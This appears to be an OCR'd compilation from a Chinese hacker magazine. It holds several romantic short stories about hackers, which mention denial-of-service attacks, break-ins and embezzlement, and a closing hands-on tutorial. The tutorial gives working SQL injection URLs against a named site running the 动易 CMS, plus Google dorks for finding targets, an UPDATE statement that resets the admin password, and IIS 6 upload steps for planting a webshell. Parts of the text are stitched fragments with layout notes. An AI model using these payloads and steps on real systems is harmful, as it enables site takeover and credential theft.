这是一个小小的县城，转一圈下来，只有两家规模还算不小、环境还算不错的网吧，一个名字叫“月亮湾”，共有35台电脑，另一个叫“富源”，比月亮湾也就只多了6台电脑。两家网吧的生意都是非常红火……“去你妈的，什么东西！”张城从富源网吧里摔惨地闪了出来，顺手点了根烟……在这个小小的县城里，张城可算是一个大“名”人……

黑别人网站的技术可不是瞎吹的，在整个县城里要说是第二，那没人敢称自己是第一。不过也正是因此，他才被那些网吧拒绝……张城拉了拉身上皱得快看不出原本样子的T恤衫，自嘲地笑了笑，摆了摆头，正转身打算离去，突然背后有人不轻不重地拍了拍他的肩膀……

张城随即又轻轻地嘲笑着摇了摇头，甩去脑袋里突然闪出的记忆片段，歪着脑袋带着点嘲讽看着对面的女孩……“嘿，傻瓜，想什么呢！”眼前的女孩再次唤醒张城……那时还是在学校，张城因为总是在学校的局域网里横行……所以，他所有的心思全都用在了折腾以及网络技术上……

再多的也许，再多的感慨，也抵不过现实的沉默。如果上天能够再次给他一个选择的机会，他也许还是会选择认识她——暗夜玫瑰，她的网名。

自始至终，他只记得她叫暗夜玫瑰；自始至终，他只叫她玫瑰。

那是一个周五，按照惯例，他开始横行在学校的局域网里，将那些兴奋得睡不着觉的夜猫子们一个个强行踢下线……

张城住的是一个单间宿舍，他讨厌跟别人同住，他觉得别样的环境给他更多的不是热闹，而是骚扰……

他打开了QQ，刚登录上去，就发现上边有人在请求他通过验证……

“暗夜玫瑰：K？是W大那个K？”  
“K：……”

这个开场白好俗，可是张城就这么喜欢上了电脑那端古灵精怪的玫瑰……

不断地聊天，不断地了解，不断地想念，这段恋情整整维持了半年……

就在所有人都惊诧怎么每个周五固定的上不了网的情况已经好久没出现了……

“玫瑰，见面好吗？”  
“……”  
“不可以吗？”  
“……好吧……”

记得当她说“好”的时候，张城感觉好像得到了整个世界上最珍贵的宝贝一样……

“傻瓜，又在想什么？”眼前一只葱白的小手打断了张城的回忆……

“这位小姐，找到我到底有什么事情吗？”收回心神，张城告诉自己，不想了，不想了，想得多，还能怎样？

眼前的女孩微微低头，轻轻笑了，然后抬起头，笑着望着张城：“说你傻你真的很傻，你不觉得我很像一个人吗？”

玫瑰！像极了玫瑰，可终于，你还不是玫瑰！……

“可可？”张城很迷惑，可可是谁？他有认识过叫可可的人吗？

“可可就是玫瑰，暗夜玫瑰！”

当张城坐在“月亮湾”网吧的时候，还是不能确信，这个叫许亚的女子，也就是玫瑰的表妹。

这个世界可真大啊，大得他在和玫瑰见了一面之后就彻底失去了玫瑰的踪迹；这个世界也好小哦……

而且自己曾说过不用技术混饭吃，却要用技术来泡MM了，可笑啊！……

“OK，完成了！”张城扭过头来……

自信的样子瞬间迷惑了众人的眼：这还是那个成天惹叽吧唧的人吗？

“拿来！”张城手一摊，细瘦的手掌稳稳地摆在许亚的面前。

若不是许亚提前以玫瑰的消息引诱他，他还真不屑于攻击富源网吧呢……

“你的保证还没做到，我怎么会提前给你报酬？”许亚小嘴一撅，娇笑着看着张城。

张城的脸瞬间阴了下来，但这是提前说好的……

一个月，一个月的时间说长也长，说短也短。而“富源”网吧的主机因为总是遭到拒绝服务攻击，无法上网……

又是那家伙呢，还是两两相对的人，表情却各有不同……

“我做到了我答应你的，而你是不是该履行你的话了？”

“别急，把这个签一下，我自然会告诉你你想知道的。”随着许亚的小手伸到张城面前的是一份协议……

“你既然厌恶我黑掉网吧，为什么还找我黑别人的网吧？”

“你签吧，我相信你的承诺，你这个人最大的优点就是说到绝对做到！”

许亚突兀地嘻嘻笑着，看着张城无可奈何地签字。

一式两份，但是许亚却全部拿了过去。看了看张城的字迹，伸出手指弹了弹纸面……

张城展开信，却是哑口无言。

张城：

我说了你最大的优点是说到做到，信守承诺。

而我告诉你，我最大的缺点就是说到向来不喜欢做到……我不是玫瑰的表妹，甚至我不认识玫瑰，别生气，这是事实，我利用了你，就这么简单。

## 侠隐仙踪

就像是漏洞，而能攻击到你这台电脑、遥控你这台电脑的唯一漏洞就是你的承诺。可以说你这个人唯一的漏洞就是感情……别生气，我这也是为你上了一课……别忘了，咱们黑字白纸写着呢！

许亚留

PS：哦，告诉你，许亚是我的真名，我也确实有个表姐很漂亮，可是她不是你的玫瑰！


SQL注入漏洞，这两件事仿佛成了他生活中的全部。他甚至在梦中都会梦到与蝶儿决战……

在经过无数个日夜的思念后，冬终于决定按蝶儿的意思，到她的城市去找她……开门的是一个中年的女人……

房间里走出一个柔弱消瘦的女孩……正是蝶儿。蝶儿看见冬的时候眼睛睁得大大的……两个人就这么对望着彼此既熟悉又陌生的面孔……

有些美好似乎总是很短暂的……蝶儿依靠在冬的肩头痴痴地说道：“冬，谢谢你这几天陪我，我觉得很幸福……”

医院里消毒水的味道让冬有如溺水一般地恍惚……他自责自己的不小心，没有照顾好蝶儿……

远处，蝶儿的父母也匆匆忙忙地赶来了……“冬，这不是你的错。其实蝶儿从小就有先天性的心脏病……”

冬怔怔地看着蝶儿的父母，先天性心脏病？为什么蝶儿得的偏偏是这个病？……慢慢地，在冬的大脑里只剩下一个念头——救蝶儿！

冬毅然地留在了北方的这个城市……他又变得像以前所熟悉的黑客精神，工作之余仍四处搜寻漏洞与工具……

上天有时又是公平的……冬打开自己的电子邮箱，发现了一封来自国外的邮件。原来是艾尔寄给他的……

夜已经很深了，冬静静地坐在电脑前……在MSN上给艾尔发出了一个“OK”的信息……

那个夜晚，冬刚把一个自己编写好的远程文件包含漏洞的自动检测程序交给了艾尔……就在那个夜晚，在QQ上，他认识了蝶儿……

在那之后，冬每天晚上除了定时和蝶儿聊天外，就是在研究各类论坛的文件包含及攻击。艾尔的攻击是随意的，不像冬和其他的中国黑客，完全是有针对性的。艾尔是俄罗斯HangUP黑客组织的核心成员之一，就以技术来讲，冬当时是非常佩服的。虽然最终他们两人只是黑掉了雷声的一个子公司的网站，可是当他们将从对方公司内部网络里搞到的一份关于AIM120空空格斗导弹的改进计划的文件，以及被黑掉的网站截图一起公布在网络上的时候，仍然造成了很大的轰动。自那之后，冬和艾尔就成了经常联系的好朋友。冬不是经常使用MSN，因此他们之间的联系大多靠的是电子邮件。

当冬看完艾尔的邮件时，被艾尔的大胆所吓了一跳。艾尔在邮件中说德国世界杯正在热火朝天地进行中，欧洲的一些博彩公司在这次世界杯中下了很大的筹码，如果能够入侵他们的网站，查找到他们的分析及一些赌注的详细情况的话，大笔地跟进，会发一笔大财。

俄罗斯黑客就是这么天不怕地不怕，只要给钱，哪怕是让他们黑掉梵蒂冈的网站，他们都干。说实话，冬对于这样的事并不感兴趣，更何况这种“黑”吃“黑”的事情风险也不小。但是那一笔大财对于冬来说简直就是一个巨大的诱惑，如果有了这笔钱那么他就可以带着蝶儿一起去美国进行手术了。那笔钱可以换来蝶儿应有的幸福与快乐，那是上天欠她的。冬想了好久，终于答应了艾尔。

接下来的几天，冬每天都在研究着艾尔交给他的英国William Hill公司的网站。对于这类网站，其安全性自不必说，普通的系统远程溢出漏洞及国内外那些常见的注入漏洞根本就不会存在。因此，他把目标放在了对方使用的APACHE服务组件及PHP脚本上。冬花了两天的时间仔细研究了APACHE的源代码，终于从中找出了一个未被发现的目录遍历漏洞。利用这个漏洞，冬找出了数据库链接文件，然后又从中找出了MySQL数据库的连接用户名及密码。使用得到的用户和密码，冬成功地连接进入了对方的数据库，然后他又利用MySQL的一个本地溢出漏洞，成功得到了对方系统的root权限。

冬在对方的系统里寻找着一切有用的文件，最后他在/root目录下一个名为arcanum（秘密）下的agreement（协议）的目录里发现了许多古怪的文件。那些文件的名字赫然是巴特斯、特雷泽盖、波多尔斯基、德科……这些不都是那些球星的名字吗？难道……没有时间去仔细思考了，冬将这些文件以及全部的数据库文件下载了下来传给了艾尔，然后清除掉对方系统日志里关于自己的记录后，就悄无声息地退出了网络。

第二天一大早，艾尔就上线兴奋地告诉冬，他昨天同几个HangUP组织里的成员一起研究过那些文件，那都是一些博彩公司与球员秘密协议踢假球的约定。另外，他们也仔细分析了数据库中关于下注的情况，他们有百分之八十的把握判断意大利最终会成为冠军。艾尔兴奋地告诉冬，只要他们大量地跟进买意大利冠军就可以赢取一大笔钱了。

那一刻，冬恍惚地似曾看到了自己正带着蝶儿一起踏上开往美国的班机，似乎看到了手术康复后的蝶儿欢快地和自己一起去看香山的红叶。不过，赚到那笔钱的前提是——下注。冬陷入了沉思。

心烦的时候，冬去医院看望了蝶儿。只要看到冬，蝶儿总会觉得很开心。“冬，你看，我已经好了，可医生怎么还不让我出院呀？我要你陪我出去玩！”蝶儿抱怨道。“蝶儿乖，听医生的话，等你出院后我再陪你重新去香山，我要给你用红红的枫叶编一个花环戴在蝶儿公主的头上！”蝶儿仰起头思索了一下，笑着回答道：“真的吗，用枫叶怎么能编成花环呢？你可不许骗我呀！不然，我就要你背我下山！”蝶儿开心地笑着，但从她清澈的眼睛深处，冬却看到了一些淡淡的忧愁。

从医院回来，冬打开了电脑，在辗转登录了国内外的几台跳板电脑后，冬连接上了公司的财务系统，很快地就找出了用户名和密码。这个过程对于冬来说很简单，看着屏幕上银行转账的界面，冬颤抖的双手有些不受意识的支配，几次都输错了账号。冬可以感觉到自己的心跳在不断地加快。他无法想象点下确定之后，自己的结局会是怎样，或许那是一个没有归路的歧途。可是当他一想到蝶儿那清纯充满渴望的眼神，冬就感觉到自己必须要那么做，为了蝶儿。

不知过了多久，冬沉重地点下了确定，将公司的五十万转进了艾尔的账户，然后又将系统里所有可能的记录全部清除得一干二净，不留一点痕迹。做完这一切，冬心神不安地在椅子上坐了一大工夫，直到后来才联系了艾尔。艾尔把冬转过去的五十万以及自己弄到的钱全部兑换成了欧元，都投进了William Hill博彩公司。

正如冬所料，公司很快就发现有五十万元的款项不翼而飞，整个公司上下都震惊了。看着警察在公司里进进出出，看着那些网络安全公司里的电脑高手日夜分析着电脑系统里的数据资料，冬每天都活在惊恐之中。虽然他确信那些电脑高手几乎不可能追查到什么有用的信息，顶多也就是认为是国外的黑客无意中入侵了公司的网站，然后又入侵了内部的财务系统，然后偷窃了那笔钱，汇到了国外的某个账号上。但冬仍陷入了极度的不安。每个人的议论和推测的语言仿佛都在冬的心上重重地敲击着，冬不停地告诉自己，坚持！坚持，为了蝶儿，一定要坚持！

7月12日，世界杯终于结束了，如愿以偿的意大利摘取了冠军。艾尔在比赛结束后的第一时间兴奋地向冬报着喜。按照博彩公司三倍的赔率，扣掉那50万，冬正好可以挣下100万。

冬心中的那份不安终于可以平息了。他把自己账户中艾尔汇过来的150万分写成了50万和100万两张支票。冬带着轻松的心情敲开了蝶儿家的门。

望着蝶儿热情的父母，冬说道：“伯父伯母，你们把这个收下，带着蝶儿去美国做手术吧，另外告诉蝶儿，公司派我到国外去出差，可能要好几年都不会回来了。告诉她，一定要快快乐乐地活着。”冬强忍着要流出的眼泪，把那张100万的存单和写着密码的纸条递到了蝶儿父母的手中。

望着那张支票，蝶儿的父母愣住了，惊讶地问道：“冬，你怎么会有这么多钱？这钱是哪里来的呢？”冬微微地笑了一笑，说道：“伯父伯母请相信我吧，这个钱不是偷不是抢的，是我给国外的一个朋友做了一些事的报酬，请照顾好蝶儿，我走了！”说完冬就以最快的速度离开了蝶儿的家。他知道或许自己以后再也不会见到蝶儿了，他很想再去见蝶儿一面，可是他不能，他怕自己忍不住。冬最后一次又去了香山，虽然那里已经没有了满山的枫叶，但是却充满了蝶儿和他快乐的记忆。回想自己自从认识蝶儿后的这一切，就像是一部电影一样离奇而又真实地演绎着，自己所做的亦如电影里一样奇妙。但是为了蝶儿，冬很愿意把这一切演完，虽然演到最终的结局，可能永远不能和蝶儿在一起，但是他还是无怨无悔。

第二天一大早，冬就怀着忐忑不安而又异常轻松的心情敲开了总经理的办公室。冬愧疚地站在总经理的面前说道：“对不起，总经理，那个盗用公款的人就是我，这些是五十万。我已经没有什么好解释的了，今天我就是来负荆请罪的，任由您的发落。”

冬低着头，不敢看总经理一眼。总经理的声音亦如平时的缓慢与稳重，听不出一丝的愤怒：“我已经知道了！”

冬吃惊地抬起头，望着不怒自威的经理不禁问道：“你知道？您怎么知道的？什么时候知道的？”

总经理淡淡一笑说道：“昨天上午一对自称是你的亲人的老人过来找我，问你要去哪里出差，还告诉我说你给了他们一大笔钱。我之所以没去找你，就是想给你一个站在我面前承认错误的机会。”顿了一下，总经理又说道：“你很喜欢蝶儿吧。”冬点了点头。总经理又接着说道：“蝶儿的父母已经将你和蝶儿的事情告诉我了。真心地喜欢一个人就是要让她幸福快乐，更何况，你还是为了挽救她的生命才做的这件事，我很理解。其实你有什么困难说出来大家都会帮你的，可如果你这样一意孤行的话，早晚会走入歧途的。这件事我会尽力帮你的，希望公安部门能够从轻处理。”那一刻，冬感到自己真的解脱了，压在心里的那片乌云也顷刻间烟消云散了。

最终，冬由于主动投案自首，且认罪态度良好，又及时归还了公司损失的财产，而原告亦不追究，鉴于冬的出发点很特殊，法院判处冬有期徒刑五年，缓刑半年。

22日，就在蝶儿18岁生日的那一天，冬带着蝶儿踏上了开往美国的班机。看着窗外白色的云，冬拥着蝶儿幸福地相视一笑。蝶儿深情地说道：“冬，谢谢你。以前，都只怨你像天使一样守护着我，带给我快乐。现在，我也要做你的天使。五年的时间算什么，我们可以等你一辈子。”望着蝶儿坚定的目光，冬感动地把蝶儿拥在了怀里。

用五年的自由来换取一辈子的幸福，对于冬来说，这或许是他最好的结局了。


## 寂寞如烟雨

### 海边一粒沙


孤单久了，就变成了一种习惯。爱得累了，就会想方设法地逃离。

在眼泪的对面是一片没有希望的稻田，而我是那一穗没有开花结果的稻禾，在秋天来临时黯然地枯黄憔悴，甚至没有留下任何的回忆。

当许枫看到“灰色符号”BLOG上面这段话的时候，心突然地疼痛了。许枫一直都没有想到符号，那个外表阳光、语言诙谐幽默但尖酸刻薄的家伙，会写出这样一段让人看了想哭的文字。

许枫是来黑站的，黑掉“灰色符号”的网站。但是现在许枫有些质疑自己的意念。也许符号并不是那么轻狂自大的人，也许符号并不是那种多嘴多舌、喜欢往人伤口上撒盐的家伙，也许……许枫给自己找了很多理由，告诉自己放弃这次的行动。

许枫放弃了这次行动，但是并不代表就会停止和符号的口水之战。许枫就是讨厌符号在黑客交流群里的大放厥词，虽然她对一些技术确实有着独到的见解，但是许枫就是不喜欢她那种清高的态度。一个真正的黑客不但要具备高超的技术，同时也要有优良的品德。许枫认为她就没有。

晚上九点半，许枫在群里和大家讨论情人节的一些事情。许枫喜欢“猫咪睡睡”，那个温柔如猫的女孩子，总会让他在疲惫的时候为之一振。快乐青春的气息就算是阻隔在网络两端，也会让许枫觉得格外的新鲜，而且两个人还一样爱好着黑客技术。许枫认为“猫咪睡睡”也应该是喜欢自己的，否则怎么会有彻夜畅谈的话题，怎么又会在她伤心或者烦恼的时候都对他说呢！但是许枫还是有一点点地怕，不知道该怎么向这个快乐像鸟儿一样的女孩子说出喜欢。所以他在群里不断地求助，希望大家给予一些意见。

爱情是个永恒的话题。大家不吝赐教地向许枫搬出了三十六计。许枫呢，倒也是很认真地记了下来。这时符号却说出了一句让许枫非常讨厌的话：“我看你别准备了，估计你没戏！情人节你还是老老实实地在家里待着吧！”

许枫讨厌符号，尤其是她说话极其不中听的时候。所以反驳道：“你这是嫉妒吧！自己找不到男朋友就来破坏别人，对不对？”

“行了吧，别那么唐突了。要是确定人家真的喜欢你，再去找人家才算是有把握。感觉你做事一点头脑都没有！”虽然许枫看不到符号的表情，但是他却可以感到符号讥讽的味道有多浓烈。气得真想拿键盘从显示器里穿过去拍符号的脸蛋，但是许枫把电脑视为生命，所以在愤怒快要爆发的那一刻压抑住了想要冲动的行为。

瞬间群里一片狼烟四起，口水之战又拉开了序幕。难听、伤人的语言像一把利剑狠狠刺入他的心。争论谩骂不停地继续着，最后符号终于沉默在许枫的狂轰滥炸之中。虽然这样，许枫还是觉得心口一阵阵地绞痛。深夜两点十分，许枫终于躺了下来，手足冰冷，被符号气得。

接下来的几天，符号再也没有出现过。她突然间的消失倒让许枫觉得很不自在，就像少了点什么一样。可能这种感觉就叫做孤独吧，幸好，还有猫咪陪着，许枫的心才会安分下来。但是许枫一直都在想，符号去了哪里呢？是不是上次的话说得太重了，毕竟符号还是一个女孩子，从她blog上面的话来看，她并不快乐。许枫的大脑被符号完全占据着。

再过几天就是情人节了，许枫一直都在期待着那一天的来临。在紧张和激动中，许枫度过了每一天的每一分钟每一秒。这天晚上刚刚下线的猫咪居然又上线了，并且主动找许枫说：“情人节你想怎么过呢？”

许枫感觉到心怦怦地跳动着，很久才平定心情说道：“我想和你过，我去你那个城市找你好吧？”

很快猫咪就回复了：“不好，还是我去找你吧！好吗？听说大连的风景很好，我想去看看，你带我玩玩好不好！”

许枫感觉很意外，但是来不及多想了，连忙雀跃地说好。猫咪调皮地发过来一个狂笑的表情说道：“那么，2月14号我们在Angell promissory咖啡厅见面好吗？”许枫的心里盛满了幸福！

2月14日这一天，许枫买了一大束火红的玫瑰，准时来到Angell promissory，坐在了靠窗的座位上，焦急地看着街道上流动的人群。就在这时，一位身着黑色服装的女孩子向他走了过来，淡定地站在许枫的面前，冷冷地说：“你就是许枫吗？”

许枫看着眼前这个美丽但是却冷酷的女孩子，虽然年轻但是脸上却带着很多沧桑与疲惫的感觉。望着她注视的双眼，许枫的脸红红地发烫：“你是猫咪吗？”

女孩子坐在许枫的对面，要了一杯咖啡，说：“我是符号！”

许枫诧异地看着眼前美丽冷酷带有些妖娆的符号说道：“为什么是你？明明就是猫咪来约我的！”

符号低着头，只是认真地搅动着杯子里的咖啡，连头都不抬地说道：“情人节我一个人，给你个面子约你出来陪我！”

许枫脸都被这个疯丫头气黑了，狠狠地拍着桌子说道：“这到底是怎么回事？”

符号好像并不知道发生了什么似的说：“什么怎么回事啊？就是我一个人无聊寂寞，所以约你出来的。当然，我知道我约你，你一定约不出来。所以入侵了猫咪的电脑。事情大概就是这么简单！”

许枫真想把那杯浓浓的咖啡泼在符号冷若冰霜的脸上。她和网上的感觉一点区别都没有，还是这样厚颜无耻。许枫气愤地站了起来，恼羞成怒地说道：“难道你就从来没有考虑过别人的感受吗？伤害别人你是不是很开心。”

然后留下符号一个人，不怒不笑，不辩解地坐在那里，搅动着咖啡，喃喃自语地说道：“孤独习惯了，就开始寻找出口。悲伤一旦成了习惯就会和幸福作对。但我只想你不受伤而已。”但是许枫已经走得听不见了。符号失落地喃喃自语的声音，只能消散在咖啡厅幽幽的歌声中。

许枫被气坏了，他从来都没见过这么无耻卑鄙的小人。对这个女孩子，许枫恨之入骨，也许这种恨也是来自于男人的尊严——被一个玩黑的女孩子耍得团团转。对于许枫来说这是极大的讽刺。曾经看到符号的那段话，让许枫或许还有一些怜悯，但是这种感觉却不复存在了。

在网络上流连的人，大多数都很寂寞孤单。每个人都在网上寻找着一种精神寄托。符号在网络上最在乎的就是自己的BLOG，那上面有她的技术分析，也有她的全部心情。看着每天在自己小窝里来来往往的人，符号的寂寞和忧伤……

## 侠隐仙踪

会被稀释得很淡薄。许枫知道黑掉符号的 BLOG 她会很伤心，但这恰恰是许枫要做的。许枫拿出 AD 注入工具，开始对符号的 BLOG 网站进行全面的检测，但是全部查了个遍，也没有发现一个注入点……（左栏正文，连续段落）

心地保护着自己的电脑和网站，不知道报复什么时候会出现，对于防范符号的入侵许枫还真没什么把握……在符号消失的这段时间里，许枫开始觉得寂寞，少了符号的啰嗦和频道，生活开始变得寂寞……（中栏正文，连续段落）

接下来的日子，许枫一直都在寻找着符号，而符号也一直都没有出现过……新年快到了，许枫一点快乐的感觉都没有……符号继续没有声色地说：“我不知道，一会儿去火车站看一下地图，或者能买到哪里的车票就去哪儿！”（右栏正文，连续段落）


各大战，虽然那个时候我还只是菜鸟，但是我把对父母关系恶化的无奈，还有对祖国无限的热爱都报复在美国的一些网站上面。后来我被 tip alliance 开除，爸爸也终于离开了我和妈妈，和一个女人开始了他们崭新的生活……（上半页两栏连续正文，含“许枫吃惊地看着甄寻……那么许枫，再见！”等段落）

## 燕尾蝶与蒲公英

Res.KID

> 有些人无论怎么掩饰，内心始终是个孩子，忧郁而任性的孩子……

云上网已经有很多年了，虽然他不是什么黑客高手，也不是什么程序奇葩，但是对于他来说网络就是他生命的一切。他可以在这个世界里尽情畅游，也可以在这个领域里赏善罚恶……后来他认识了砚，他的生活改变了。一个在网络世界里并不绚丽的女孩，却深深吸引了他……（左栏长篇正文，含高考、作文《燕尾蝶之死》、考入北京高校等情节）

因为就在云高考结束后，砚在上中学的甄告诉云自己已有男朋友了。云茫然地坐在空荡荡的房间里发呆，默默念着自己的初篇作文“从前有一只毛毛虫……”……云进了大学计算机系，他的大学生活一直以电脑和啤酒为伴……“我和他分手了……”（右栏长篇正文，含电话对话与后续情节）

## 狭路仙踪

一些与计算机完全不相关的课。云受到了留级的处分，他生活几乎崩溃了。云恨透了大学专业课程的不合理，找学校理论却又得不到答复。云觉得自己是计算机专业，因为那些毫不相关的功课留级很委屈，他决定黑掉学校的网站来报复。他把自己的想法告诉了靓，但是靓却坚决不同意。

一向宠着靓的云这次并没有妥协，尽管他知道自己的做法并不正确，可好强的自尊心仍然让他坚持自己的想法。当靓泪流满面地从云和他的电脑边走开的时候，云狠狠地咬着嘴里的烟蒂，连他自己也不明白他这样做究竟是为了什么？

靓低声地对着云念着他最喜欢的那首诀别词：“冷风撕乱佰劳语，此情抛去亦何难。握手若相问，竟不言后期。若情既决绝，妾意已参差……”云低着头一句话不说。靓说云变了，变得好可怕……

生活也许就是这样，索然无味中又夹杂着那么一丝的快乐。

这是一个闷热的季节，老天给予了我们额外的恩惠——雨。闲来无事，于是我便冒雨走入了网吧……（正文为长篇叙事，包含关于网络、程序、交易、警察抓捕等连续段落）……最终，他们拽向了那两台电脑——一台是我的朋友，一台是我的珍宝。


> “这个怎么办？”  
> “都是作案工具，没收。”

听着他们的谈话，我眼睁睁地看着电脑被他们一台一台地搬下去，心里有些隐隐作痛。

“那台电脑不是作案工具！”不知哪儿来的勇气，我指着那台高端电脑狂喊。

可是最终他们没有理我。坐在警车里，看着窗外漫天飘洒的落叶，一句话也不说。这一路上，我看见了车窗外在寒风中扫街的工人，在道边修车的师傅，在路上敲塑料瓶的回收工，在……

看到这些，我深深地忏悔，世界上没有什么事情靠投机取巧就能永远得到的，而现在一切都已经晚了，只因我走上的是一个错步……


## 狂在围城墙上

### 一

黑客世界就如同围城一样矗立在这片宽阔且先进的网络领域里，外面的人看到里面那种神秘、令人崇拜的生活就拼了命地想冲进来，而里面的人看到外面那种自由平静的日子又有一种想逃出去的冲动……

当我在群里看到 Sinmoon 言辞犀利，并不断给我们发来“Shopping 网”的后台操作截图的时候，我的第一感觉就是她一定技术又向前进了一步……

接着就听 Sinmoon 摇头晃脑地说，“XX006 战队”要招新了，他去报名，凭他的技术实力，有很大的希望可以进去……

但是群里的众人没落得我所思所想，就都跟了 Sinmoon，也挤进群里去了……很多人想凭借自己不凡的技术被战队录取……

就这样，日子放一条直线似地迅速而又紧张地在键盘上击打了起来……

### 二

战队叫我们去卖掉的权限最终还只有 Sinmoon 在坚持了一个多月后提了上去，看着他兴奋地去了“XX006 战队”，我也很是感慨……

我发了有生以来给 Sinmoon 的第一条短信，他的 QQ 仍旧暗着，没有回我。我又在群里发了一条消息，问他：“Sinmoon，你有回我吗？”他仍旧做他的“醒术”，没有回我……

又过了很多日子，Sinmoon 仍旧没有上线，这就让我更加肯定了自己以前的想法……

点开一看，果然看到一个极度颓废的身影抱着台笔记本电脑蹲在地上……那台笔记本电脑就是 Sinmoon 不止一次发来视频给我们看过的 SONY……

后来那段时间，Ada 一直没在群里说过话。

### 三

在 Ada 等黄了三载落叶之后，传来了 Sinmoon 即将出狱的消息。那夜，群里彻夜欢歌，无人入眠。

第二天，我们几十人都到了，那门口被我们围得很是威风……

据 Sinmoon 描述，所谓的“XX006 战队”并不是一个正统的组织，他们只是一个势力非常强大的、以非法盗取他人财物的网络盗窃集团……

听着 Sinmoon 的话，我的脊椎骨又是冷到了脚底，汗又如同年前冒了出来……

后来，我曾跟他们每一个人说过，冲进围城后，再继续努力，你就会发现在围城的里面有一条更加宽阔的坦道……天边的落日顶在香山的脊梁上，Sinmoon 挽着 Ada，步履柔软，脚下的叶子红得很温柔，我想，这才是他们所追求的那种坦道。

## 动易 Region.asp 注入漏洞利用

天の翼

动易网站管理系统是当前中国最具性价比、最受欢迎的 CMS 系统和电子商务系统。目前已有超过 10 万个以上网站的应用规模，拥有政府、企业、科研教育和媒体等各个行业领域的几千名商业用户（用的多，我们练手的目标也就更多了）。这套系统中的 Region.asp 文件里有一句 `Province = Trim(Request.QueryString("Province"))`，从这里可以很明显地看到 Province 没经过过滤，后来又被带到了数据库执行语句中。因此我们可以轻松地构造 SQL 语句，进行注入。总是用工具注入，水平也不会提高，所以我现在带领各位小黑们进行一次纯手工注入之旅，Let's GO!

### 一、搜索目标

首先我们要找一些使用了动易系统的网站。考虑到动易的文章发布后缀是 `http://127.0.0.1/Article/ShowArticle.asp?ArticleID=` 这种形式来浏览的，现在就是 Google Hacking Time 了！打开 Google，搜索关键字 `inurl:Article/ShowArticle.asp?ArticleID=` 就可以找出很多使用动易的 CMS 系统的网站。


图1

往后翻几页，我随便打开了个网站（图2）。稍微看了下，是一个提供免费空间的站点。好，我们就拿它开刀了。


图2

### 二、手工注射

我们先来暴用户名，在地址栏里提交以下地址（图3）：


图3

```text
http://www.onlinegf.com/region.asp?Country=Tony&City=tianyi&Province=shit'+and+1=2+union+select+username+from+PE_Admin+where+1<2+and+'1'='1
```

解释一下：由于 Province 过滤不严，`Province=shit'` 后面的就是我们提交的注入语句。`+and+1=2+union+select+username+from+PE_Admin+where+1<2+and+'1'='1` 这句代码的意思是用 UNION 查询 PE_Admin 表中的用户名，即动易的 CMS 网站管理员的账号。如果在“市/县/区/旗”的下拉框中显示出了对方管理员的账号，说明网站存在漏洞。

那就可以再来暴管理员的密码，在地址栏里输入：

```text
http://www.onlinegf.com/Region.asp?Country=Tony&City=tianyi&Province=shit'+and+1=2+union+select+password+from+PE_Admin+where+username='Jerry'+and+'1'='1
```

刚才忘解释了，这里的“+”号被 IIS 解析过去之后会全部变成空格的。如果大家看着费劲的话，可以把“+”替换成空格再阅读：

```text
' and 1=2 union select password from PE_Admin where username='Jerry' and '1'='1
```

这个语句的意思就是 UNION 查询 PE_Admin 表中 Jerry 的密码。其中的 Jerry 是刚才我们暴出来的管理员用户（图4）。


图4

“软件地址”里的路径，我这是 **200611/20061125222047379.rar**，在地址栏输入 `http://www.onlinegf.com/soft/asp.asp/200611/20061125222047379.rar`。

哈哈，一匹小马出现了！如图9。


散列拿到 `www.XMDS.com` 查一下，运气很好，密码是纯数字的。SQL 版本的动易即使查不出密码，也可以用 UPDATE（SQL 里的更新语句）直接改掉管理员密码，语句是：

```sql
Update PE_Admin set Password='49ba59ebbe56e057' where id=1
```

这个代码的意思是将 id 为 1 的用户（一般是 admin）的密码改为 123456。其中 `49ba59abbe56e057` 是 123456 用 MD5 加密后的散列。SQL 版还可以直接 LOG 差异备份，得到 SHELL。我在光盘中放了两篇手工注入的精彩文章，有兴趣的朋友可以自己研究。

在主站最下面找到后台 `http://www.onlinegf.com/Admin/Admin_login.asp`，用得到的密码进入后台，成功了！（后台路径被改了的话可以 Google Hacking 找一下）

### 三、后台更精彩

进到了后台，小黑们肯定抑制不住心中的喜悦了。别急，精彩还在后面！现在还没拿到 SHELL 呢！在后台管理左边找到“系统设置”，选择下面的“网站频道管理”，点在右边的“下载中心”旁边的“修改”，找到“上传选项”，把“上传文件保存的目录”里改成 `asp.asp`（名字随便，但是一定要包含 `.asp`），保存修改结果，如图6。


> 菜鸟一定要想明白是啥，为什么它能够被上传？关键点其实还是 IIS 6.0 的解析问题：当 `asp.asp` 这样的目录存在时，目录中的文件都会被当作 ASP 文件来解析。

上传一个完整的海阳顶端木马就可以操作这个网站的任意文件了，通过这个 webshell 上传完整海阳马或者别的 ASP 木马的过程叫做“小马传大马”。

不少菜鸟都不知道怎么做，其实很简单，用记事本打开一个海阳顶端的小马，把里面的所有代码都复制下来填到“输入文件的内容”那个文本编辑框里。再把上头那个“输入保存的路径”里填写完整，点保存就可以了！为了提醒下管理员，我留了个页子！如图10。


我们先来做个数据库木马，我用的是旁注小助手“diy.asp”，如图7。把它改名为 `diy.rar` 再打开“下载中心”里的“添加软件”，如图8。我们在上传软件上把 `diy.rar` 传上去，记下“软件地址”。


为了不危害别人用免费空间，入侵就到此收工了，我可是好人啊。为了方便更多的菜鸟朋友们，我为大家准备了一个工具。

### 四、工具——提高入侵“生产力”

在网站地址里输入刚才搜到的网站地址，点检查可注入文件。显示出页面以后，再点“爆出管理员账号”，记下管理员的名字，再点“爆出管理员密码”，密码就爆出来了，如图11、图12。

## 一个人的战争


图11　图12

接下来要做的事情跟前面完全一样，就没什么好说的了！

最后唠叨一下：其实很多黑客站（例如 77169 和 3800hk）都是用动易 CMS 系统的。他们被黑也是因为这个漏洞，相信网络上又会血雨腥风了！最后，鸣谢漏洞的发现者 whytt。

> ### 小编点评：
> 本文最大的亮点不是一个新漏洞的利用，而是进入动易后台之后，利用 Windows 2003 下 IIS 6 的特性获得 webshell 的过程……正因为这是 IIS 6 的特性，所以如果你入侵的网站主机没有一台古老的 Windows 2000，就别浪费时间了。

（文中涉及到的 diy.asp 和动易 Region.asp 漏洞利用工具已收录到光盘中。）

## PHPCMS 3.0 上传漏洞利用

阿布


